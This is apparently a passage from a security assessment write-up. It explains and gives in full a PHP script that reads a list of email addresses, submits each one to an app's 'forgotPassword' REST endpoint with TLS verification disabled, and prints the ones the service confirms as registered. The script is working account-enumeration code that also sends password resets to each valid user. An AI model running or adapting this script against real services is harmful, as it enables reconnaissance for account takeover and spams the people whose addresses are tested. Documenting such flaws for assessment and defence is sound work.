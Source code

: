 This Script takes a list of email addresses and prints all of them which are already registered in the system to the shell. To do so it sends a POST Request like the scripts above to the REST Service "forgotPassword". After that it parsed the response, represented by a JSON File. If the field status of this field equals 1, the app generated a new password and sent it via email to the provided address. Else
the provided email denied.
\begin{lstlisting}
<?php

if(!$argv[1])
die("Please provide list of email adresses");
$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);

echo "Valid Accounts:\n";
foreach($emailList as $email)        
if (validateEmail($email))
echo $email."\n";

function validateEmail($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
if ($curl_response === false) {
$info = curl_getinfo($curl);
curl_close($curl);
die('error occured during curl exec. Additioanl info: ' . var_export($info));
}
curl_close($curl);
$decoded = json_decode($curl_response,true);
if ($decoded['status']['code'] == 1) {
//die('error occured: ' . $decoded->response->errormessage);
return true;
}
else {
return false;
}
}

?>
\end{lstlisting}
